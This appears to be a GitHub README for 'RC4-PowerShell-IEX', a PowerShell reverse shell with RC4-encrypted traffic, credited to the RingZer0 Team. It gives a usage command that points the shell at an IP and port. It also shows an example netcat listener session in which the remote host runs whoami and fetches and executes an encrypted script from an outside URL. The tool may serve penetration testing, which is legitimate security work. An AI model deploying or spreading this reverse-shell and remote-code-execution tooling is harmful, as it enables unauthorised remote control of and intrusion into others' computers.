 # RC4-PowerShell-IEX
Small powershell reverse shell using RC4 encryption

# Usage
```
PS-RemoteShell -ip 1.1.1.1 -port 1111 -key 1111
```

# Example
```
$ nc -lv 8080
(192.168.70.133:RINGZER0\me):Url >null
(null):Exec >whoami
RINGZER0\me

(192.168.70.133:RINGZER0\me):Url >https://home.ringzer0team.com/ps.php
(https://home.ringzer0team.com/ps.php):Exec >Get-BrowserHomepage

Start Page
----------
http://go.microsoft.com/fwlink/p/?LinkId=255141

The ps.php file located at https://home.ringzer0team.com/ps.php is encrypted using the following key: test
```

# TODO
make a client to encrypt the whole communication.

# Credit 
Mr.Un1k0d3r RingZer0 Team

https://ringzer0team.com
